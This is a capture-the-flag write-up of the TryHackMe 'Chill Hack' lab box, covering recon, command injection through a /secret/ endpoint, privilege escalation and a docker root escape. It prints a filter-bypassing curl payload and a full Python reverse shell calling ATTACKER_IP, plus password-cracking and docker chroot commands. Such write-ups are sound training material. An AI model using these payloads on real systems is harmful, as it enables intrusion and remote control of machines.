 # Summary

This is [Chill Hack](https://tryhackme.com/room/chillhack) box from TryHackMe.
#### TODO: main points

# Recon


## Scan
```
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 1001     1001           90 Oct 03  2020 note.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.79.146
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 09f95db918d0b23a822d6e768cc20144 (RSA)
|   256 1bcf3a498b1b20b02c6aa551a88f1e62 (ECDSA)
|_  256 3005cc52c66f6504860f7241c8a439cf (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Game Info
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

So there is **ftp**, **ssh** and **http**.

## Website 

Dirb was able to find `/secret/` directory which looked like being able to execute commands sent via POST request:\
![Alt text](image.png)
\
Request:

> POST /secret/ HTTP/1.1 \
> Host: 10.10.97.198 \
> [...]\
\
> **command=pwd**

Response:

> HTTP/1.1 200 OK \
> [...]\
> **/var/www/html/secret**\
> [...]

That already allows RCE as www-data user:
![Alt text](image-1.png)\
However there is one more trick needed in order to easily execute commands.
Attacker needs to use `${IFS}` instead of spaces/plus signs as they're not treated properly by server.\
So example payload would look like below:

```
command=curl${IFS}http%3a//ATTACKER_IP%3a9999
```

And in order to create shell, the payload looked like that: &tag&
```
command=python3${IFS}-c${IFS}'import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/bash","-i"])'
```

## FTP

Attacker can also use anonymous login to get to ftp and find a `note.txt` which contains the following:

```
Anurodh told me that there is some filtering on strings being put in the command -- Apaar
```
From it, it's useful to remember two potential usernames: **Anurodh** and **Apaar**

# Privesc

## www-data to Apaar

After running `sudo -l`, it turns out that there is a `/home/apaar/.helpline.sh` script shich can be run as `apaar` user without providing password.
So after running `sudo -u apaar /home/apaar/.helpline.sh`, the script is ran as `apaar` user.
The script is vulnerable to `command injection`, so attacker can now execute anny command as `apaar`.
After providing `/bin/bash` as requested message, attacker has working shell:
![Alt text](image-2.png)


## Apaar to Anurodh

In `/var/www/files/index.php` there are leaked mysql db credentials (the hashes require cracking), however they don't seem to be working.

After browsing some more files, i decided to take a look at `/var/www/files/images`, especially the .jpeg one.
It turned out that steghide is able to extract some archive from it, but it needs password in order to be opened.
Luckily, this password can be easily cracked.

Commands used:
```
zip2john backup.zip > john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john.txt
```

Cracking doesn't take long and after unzipping the archive, attacker can read source_code.php file.
Inside file, there is a hardcoded string which is password in base64.
After decoding the string and checking on ssh, it turns out that it's anurodh's password.

## Anurodh to root

After running `id` command as Anurodh it turns out, that this user is in `docker` group.
GTFOBins presents some privesc techniques using docker.

Running following command spawns shell as root:
```
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
![Alt text](image-3.png)

